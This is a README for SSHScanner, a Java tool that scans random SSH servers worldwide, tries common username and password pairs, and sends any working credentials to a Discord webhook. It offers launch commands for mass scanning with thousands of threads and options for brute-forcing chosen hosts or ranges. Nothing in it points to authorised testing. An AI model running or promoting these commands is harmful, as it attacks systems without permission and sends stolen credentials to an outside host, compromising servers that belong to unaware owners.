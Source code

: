 ## Description
This tool scans random SSH servers around the world and it tests the most used passwords

## Developers

You can reuse SSHScanner but make sure you comply with the [LICENSE](https://github.com/thisisnzed/SSHScanner/blob/main/LICENSE).

### Maven

```xml
<dependencies>
    <dependency>
        <groupId>com.thisisnzed</groupId>
        <artifactId>SSHScanner</artifactId>
        <version>1.1.0-SNAPSHOT</version>
    </dependency>
</dependencies>
```

## Lib

* **JSch** : http://www.jcraft.com/jsch/ 

## Usage

* I. Download the [latest release](https://github.com/thisisnzed/SSHScanner/releases) of SSHScanner
* II. Launch the program 

## Launch

*Here are some examples of commands according to your need*

- **Scan random SSH servers :** java -jar SSHScanner.jar -combo combo.txt -threads 1 -port 22 -timeout 6000 -webhook "https://discord.com/api/webhooks/x/y" -verbose true
- **Scan SSH range :** java -jar SSHScanner.jar -range range.txt -combo combo.txt -threads 3000 -port 22 -timeout 6000 -webhook "https://discord.com/api/webhooks/x/y" -verbose false
- **Scan specific SSH server :** java -jar SSHScanner.jar -combo combo.txt -threads 1 -port 22 -timeout 6000 -webhook "https://discord.com/api/webhooks/x/y" -verbose true -host "127.0.0.1"


## Arguments

Note: Each argument is optional

* **-combo <path>** | File containing all the "user:password" that the program will test for each host (default: combo.txt)
* **-threads <int>** | Number of threads launched (default: 1)
* **-port <int>** | Port that will be tested for each host (default: 22)
* **-timeout <int>** | Time (in ms) before the program marks a server as unavailable (default: 6000)
* **-webhook <url>** | Discord webhook where credentials will be sent (default: "")
* **-verbose <boolean>** | Whether or not to display failed attempts on the console (default: true)
* **-host <IP address>** | **WARNING: Only for bruteforce specific host** | Use this parameter ONLY if you want to perform a bruteforce attack on a specific SSH server - if you use this parameter you only will attack the requested server and not millions of random servers around the world (default: "")
* **-range <path>** | **WARNING: Only for bruteforce specifics ranges** | Use this parameter ONLY if you want to perform a bruteforce attack on specifics SSH servers (by putting ranges) - if you use this parameter you only will attack the requested ranges and not millions of random servers around the world (default: "")

